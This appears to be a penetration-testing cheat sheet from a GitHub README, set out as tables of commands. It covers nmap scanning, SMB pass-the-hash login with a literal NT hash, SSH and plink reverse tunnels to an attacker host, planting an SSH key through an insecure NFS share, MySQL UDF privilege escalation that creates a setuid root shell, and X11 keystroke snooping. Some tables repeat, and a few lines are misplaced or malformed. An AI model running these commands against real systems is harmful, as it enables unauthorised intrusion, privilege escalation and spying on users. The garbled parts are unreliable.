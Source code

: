 
### Service Enumeration To Identify how Many TCP and UDP Port is being Opened

| Services Enumeration  |
| ------------- |
| nmap -Pn -n --open -p500  192.168.0.0/24 |
| nmap -Pn -n --open -p161  192.168.0.0/24 |
| nmap -Pn -n --open -p6000-6005 --script=x11-access 172.31.6.0/24  |
| nmap -Pn -n --open -p3389 --script=rdp-vuln-ms12-020,rdp-enum-encryption 172.31.6.0/24 |
| nmap -sT -PN -n -sV -p 21,22,23,25,80,110,139,443,445,1433,1521,3306,3389,8080,10000 192.168.2.9/24 |
| nmap -sT -PN -n -sV -p 21,22,23,25,80,110,139,443,445,1433,1521,3306,3389,8080,10000 192.168.2.9/24 | awk '/22\/open/ {print $2}' |


### Linux and Microsoft RPC service Enumeration

| How to Do |
| ------------- |
| smbclient -N -L \\\\10.10.10.103 | grep Disk | sed 's/^\s*\(.*\)\s*Disk.*/\1/' |
| smbclient -N -L \\\\10.10.10.103 |
| smbclient \\\\10.10.10.103\\C$ -U "Administrator" --pw-nt-hash f6b7160bfc91823792e0ac3a162c9267 |
| nmap -Pn -n --open -p3389 --script=rdp-vuln-ms12-020,rdp-enum-encryption 172.31.6.0/24 |
| nmap -sT -PN -n -sV -p 21,22,23,25,80,110,139,443,445,1433,1521,3306,3389,8080,10000 192.168.2.9/24 |
| nmap -sT -PN -n -sV -p 21,22,23,25,80,110,139,443,445,1433,1521,3306,3389,8080,10000 192.168.2.9/24 | awk '/22\/open/ {print $2}' |


| Linxu and Microsoft RPC Enumeration  |
| ------------- |
| smbclient -N -L \\\\10.10.10.103 | grep Disk | sed 's/^\s*\(.*\)\s*Disk.*/\1/' |
| smbclient -N -L \\\\10.10.10.103 |

| Linxu and Microsoft RPC Enumeration  |
| ------------- |
| smbclient -N -L \\\\10.10.10.103 | grep Disk | sed 's/^\s*\(.*\)\s*Disk.*/\1/' |
| smbclient -N -L \\\\10.10.10.103 |

| Linxu and Microsoft RPC Enumeration  |
| ------------- |
| smbclient -N -L \\\\10.10.10.103 | grep Disk | sed 's/^\s*\(.*\)\s*Disk.*/\1/' |
| smbclient -N -L \\\\10.10.10.103 |


### Advanced SSH Tunneling and Port Forward

| Advanced SSH and Window Portproxy Tunneling and Port Forward |
| ------------- |
|ssh -L 127.0.0.1:8080:127.0.0.1:80 remotehost |
|ssh -nNT -L 8000:localhost:3306 user@pivoting host #Local Port Forwarding |
|ssh -nNT -R 0.0.0.0:4000:192.168.1.101:631 user@pivot host |
|ssh -D 5000 -nNT user@pivoting host #SOCKS Proxy|
|ssh -p 13339 -f -N j0hn@10.11.1.252  |
|ssh -N -f -D 8888 -p 22000 j0hn@192.168.13.252 |
|plink.exe -l root -pw  -R 445:127.0.0.1:445 10.10.14.8 #winexe -U Administrator //127.0.0.1 "cmd.exe|
|plink.exe -l root -pw  -R 3389:127.0.0.1:3389 10.10.14.8 #rdesktop -U Administrator 127.0.0.1 |
|ssh -nNT -R 3389:localhost:3389 user@pivot host #Remote Port Forward |
|netsh interface portproxy add v4tov4 listenport=1111 Compromise Box=x.x.x.1 connectport=1111 connectaddress=Attacker|
|netsh interface portproxy add v4tov4 listenport=1111 listenaddress=x.x.x.1 connectport=1111 connectaddress=x.x.x.10 |
|netsh interface portproxy add v4tov4 listenport=9001 listenaddress=x.x.x.1 connectport=9001 connectaddress=x.x.x.100 |


### Insecure NFS Share Vulnerabilities

| How To Do |
| ------------- |
| showmount -e 192.168.100.25 #Check if any share is available |
| mount -t nfs 192.168.100.25:/home /tmp/NFS |
| mount -t nfs 192.168.1.112:/ /mnt -o nolock |
| mkdir -p /root/.ssh # We May Upload SSH Key to NFS |
| ssh-keygen -t rsa -b 4096 |
| cp /root/.ssh/hacker_rsa.pub /mnt/root/.ssh/ |
| cat authorized_keys |
| cat id_rsa.pub >> authorized_keys |
|ssh -i /root/.ssh/hacker_rsa root@192.168.1.112|


### MySQL Privilge Escalation Through UDF

| How To Do |
| ------------- |
|gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc|
| use mysql; |
|create table npn(line blob); |
| insert into npn values(load_file('/tmp/raptor_udf2.so')); |
|select * from npn into dumpfile '/usr/lib/raptor_udf2.so';|
| create function do_system returns integer soname 'raptor_udf2.so'; |
| select do_system('chown root:root /tmp/sid-shell; chmod +s /tmp/sid-shell'); |


### X 11  Commond Vulnerability

| How To Do   |
| ------------- |
| use auxiliary/scanner/x11/open_x11 |
| nmap -p 6000 --script=x11-access 192.168.2.26,75 |
|create table npn(line blob); |
| xdpyinfo -display 192.168.2.75:0 | head -n 5 |
|xspy -display 192.168.1.23:0 -delay 100|



